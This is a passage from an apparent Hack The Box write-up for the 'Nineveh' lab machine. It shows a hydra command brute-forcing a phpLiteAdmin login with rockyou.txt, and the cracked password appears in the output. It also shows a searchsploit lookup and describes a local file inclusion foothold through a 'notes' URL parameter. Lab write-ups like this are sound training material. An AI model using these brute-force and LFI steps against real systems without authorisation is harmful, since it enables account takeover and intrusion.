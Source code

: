 Try to brute force phpLiteAdmin password with hydra using `rockyou.txt` directory.

```
┌──(Hades㉿10.10.14.5)-[1.9:32.3]~
└─$ hydra -l admin -P /home/kali/directory/rockyou.txt 10.10.10.43 https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.'
<snip>
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
```

Search the public exploit with `searchsploit`.

```
┌──(Hades㉿10.10.14.5)-[1.9:25.1]~/scripting
└─$ searchsploit phpLiteAdmin 1.9
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Inject | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabiliti | php/webapps/39714.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### LFI within filtering

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/nineveh)

At url `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`, I saw this url query `ninevehNotes.txt` file, try to check it with Local file inclusion.

With only enough `/../` in the url and content file name `ninevehNotes`, the LFI vulnerability will work.

![](images/9.png)
